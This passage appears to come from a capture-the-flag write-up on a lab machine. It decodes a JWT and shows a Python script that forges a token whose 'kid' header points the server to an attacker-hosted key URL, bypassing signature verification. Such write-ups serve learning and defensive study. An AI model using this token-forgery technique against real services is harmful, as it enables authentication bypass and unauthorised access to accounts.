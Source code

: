 It's a JWT (JSON web token).  
The JWT token has the form `xxxx.yyyy.zzzz`, where `xxxx` is the header, `yyyy` the payload and `zzzz` the signature on  header + payload.

We can thus split the auth token in 3 and decode them:
```bash
$ echo -n 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6ImFudG9uaW8iLCJlbWFpbCI6ImFudG9uaW8uc2FjY29AZ21haWwuY29tIiwiYWRtaW5fY2FwIjowfQ.pP5n0gq91-BWVBMUHkEEpBW4NzkLT_9fmYqzdoLhkySKB4iBVAS3OnLbnK8RyeP2AibzKLJ1X1d2JXqhGugGgt2cuCooYKG2kMhfucVQOHA1pwQa8AVnJZInMJo6DRYl7qvc4iiZCZHcAhgCJUgwvrhxnyPgoHuftIgBHFDjuc3I2MLyZweX4ifqqj23GbQM8EurTnubI4omXOQyGPQmS97DuJLYDjyNI_9L3ttrz2s0bLzoGa-7PdIYB-uuv27QfcDUDs9n2tEuYRc4RmOkL0d02TfD60Ya5HPhmhbO7ZT7EHm5schlFkgU2rrHZFWZuJc7Pum3CNcm5c-qodvB0hN89qjhB74p0DAror25dIXVQyT6kqZu53o09UWnHPzBFlCUAf5LUx0mVAor83JtGgsGKrHiLNqncZtdkPizAmy0m5WLcYuIUwLLMTP6zF0CEoRbqk5x1-RpTXPcnhOoq-OKiaTu-QU1RGE8nx4Iw8GeQFxdYpLJbFp47u9UFkzc8dYM9jPwquiBSxy-6A6KkjhcQJ8QLJZ5-S5nh2RjBHbHsvrJXwuij5sIWUz2hx1ixobAVueqweoNRCew9V4_uEt3jLsbg0_iiAO3ucKdLuiUYzYgojPKsU4Tb_fQk2qQ1uk6jKbOKiyW6cxFZx-6IKB07Kf-8VAhqKwF-ZSq-zQ;' | sed "s/\./\n/g" | base64 -d | jq
base64: invalid input
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}
{
  "username": "antonio",
  "email": "antonio.sacco@gmail.com",
  "admin_cap": 0
}
parse error: Invalid numeric literal at line 2, column 3
```

There's a strange reference to the private key in the JWT header.

We definitely need to look more into it


#### Bypass JWT token


In the JWT header we have a link to a private key. It will be used by the server to verify the correctness of the signature. 

We first try to access the `/privKey.key` but nope :(. 

We know that the server needs to access the file and retrieve the content before the authenticity check of the JWT takes place.  
That means that we could trick the server into fetching the private key from  our local webserver, listening on port 7070.

We use a python script to generate and send the token, using the `pyjwt` python module.
```python
import jwt
import requests

# Generate jwt. Algorithm and secret are not important.
encoded = jwt.encode({"username":"antonio","email":"antonio.sacco@gmail.com","admin_cap":0},
                    "",
                    headers={"kid":"http://10.10.14.22:7070/privKey.key"})

cookies = {"auth":encoded}


r = requests.get('http://10.10.10.230/',cookies=cookies)

print(encoded)
print("JWT sent")
```
Algorithm and secret are not important in this case.
